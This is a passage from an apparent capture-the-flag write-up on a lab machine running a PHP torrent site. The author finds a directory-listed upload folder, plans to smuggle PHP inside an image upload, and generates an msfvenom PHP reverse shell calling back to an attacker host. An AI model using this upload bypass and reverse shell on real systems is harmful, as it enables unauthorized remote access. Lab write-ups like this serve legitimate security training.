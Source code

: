 Beginning to suspect that I can edit the image or torrent file via this window, I could force the application to take some code injected into an image or torrent provided the area it renders on the server knows how to execute the code.
 
I know I'm dealing with PhP pages, this gives me the language for my payload, now I just have to find a place that will render php content in the uploads.
 
Closing down the editor I examine the torrent details and notice the image links out to:
http://10.10.10.6/torrent/upload/723bc28f9b6f924cca68ccdff96b6190566ca6b4.png
 
I follow it, but pull one level back to see if we have Directory Listing on http://10.10.10.6/torrent/upload/ which I do:
 
 
![uploads.png](/assets/htb_stuff/popcorn/uploads.png)
 
This might work if I can upload a malformed image. The edit specifies this needs to be in an image format and no larger than 100Kb, a little limiting but maybe usable.
 
I check the torrent link 10.10.10.6/torrent/torrents.php?mode=download&id=723bc28f9b6f924cca68ccdff96b6190566ca6b4 which in theory could be big, but the url stays on the same page, with the API looking to fetch a resource from an unknown storage location. I'd need the source code to work that out, at this point a malformed image looks like a good option to try. 
 
First I need a payload, I'm going with a raw reverse shell that will connect back to me on port 1337 in php
 
``` bash
msfvenom -p php/reverse_php lhost=$ATTACK lport=1337 -f raw
```
 
This gives me:
 
```
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 3024 bytes
/*<php>/**/
EXPLOIT
```
 